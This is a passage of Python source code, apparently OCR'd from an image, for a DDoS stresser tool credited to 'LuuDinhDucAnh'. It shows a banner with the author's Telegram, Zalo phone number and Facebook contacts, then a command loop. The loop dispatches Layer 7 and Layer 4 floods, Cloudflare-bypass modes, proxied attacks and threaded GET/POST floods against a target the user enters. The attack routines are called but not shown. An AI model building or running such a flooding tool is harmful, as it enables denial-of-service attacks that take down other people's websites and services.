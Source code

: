    stdout.write("                   "+Fore.LIGHTWHITE_EX  +"\n")
    stdout.write("             "+Fore.LIGHTYELLOW_EX        +"\n")
    stdout.write("             "+Fore.LIGHTYELLOW_EX+"╔═════════╩═════════════════════════════════╩═════════╗\n")
    stdout.write("             "+Fore.LIGHTYELLOW_EX+"║ "+Fore.LIGHTWHITE_EX   +"       Telegram : @LuuDinhDucAnh           "+Fore.LIGHTYELLOW_EX  +"\n")
    stdout.write("             "+Fore.LIGHTYELLOW_EX+"║ "+Fore.LIGHTWHITE_EX   +"       Zalo : 0794088568    "+Fore.LIGHTYELLOW_EX  +"              ║\n")
    stdout.write("             "+Fore.LIGHTYELLOW_EX+"║ "+Fore.LIGHTWHITE_EX   +"       FaceBook : https://www.facebook.com/DucAnh.Profile.1111  "+Fore.LIGHTRED_EX  +"          ║\n")
    stdout.write("             "+Fore.LIGHTYELLOW_EX+"║ "+Fore.LIGHTWHITE_EX   +"       Type [help] Để Hiển Thị Panel    "+Fore.LIGHTRED_EX +"          ║\n")

    stdout.write("             "+Fore.LIGHTRED_EX+"╚═════════════TOOLS CODE BY LuuDinhDucAnh════════════════════════════════════════╝\n")
    stdout.write("\n")
##############################################################################################
def command():
    stdout.write(Fore.LIGHTYELLOW_EX+"╔═══"+Fore.LIGHTYELLOW_EX+"[""bot"+Fore.LIGHTYELLOW_EX+"-"+Fore.LIGHTYELLOW_EX+"DucAnh"+Fore.CYAN+"]"+Fore.LIGHTYELLOW_EX+"\n╚══\x1b[38;2;0;255;189m> "+Fore.WHITE)
    command = input()
    if command == "cls" or command == "clear":
        clear()
        title()
    elif command == "help" or command == "?":
        help()
    elif command == "credit":
        credit()        
    elif command == "layer7" or command == "LAYER7" or command == "l7" or command == "L7" or command == "Layer7":
        layer7()
    elif command == "layer4" or command == "LAYER4" or command == "l4" or command == "L4" or command == "Layer4":
        layer4()
    elif command == "tools" or command == "tool":
        tools()
    elif command == "exit":
        exit()
    elif command == "test":
        target, thread, t = get_info_l7()
        Launch(target, thread, t, "HEAD")
        time.sleep(10)
    elif command == "cfb" or command == "CFB":
        target, thread, t = get_info_l7()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        LaunchCFB(target, thread, t)
        timer.join()
    elif command == "pxcfb" or command == "PXCFB":
        target, thread, t = get_info_l7()
        threading.Thread(target=attackPXCFB, args=(target, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "get" or command == "GET":
        target, thread, t = get_info_l7()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        LaunchRAW(target, thread, t)
        timer.join()
    elif command == "post" or command == "POST":
        target, thread, t = get_info_l7()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()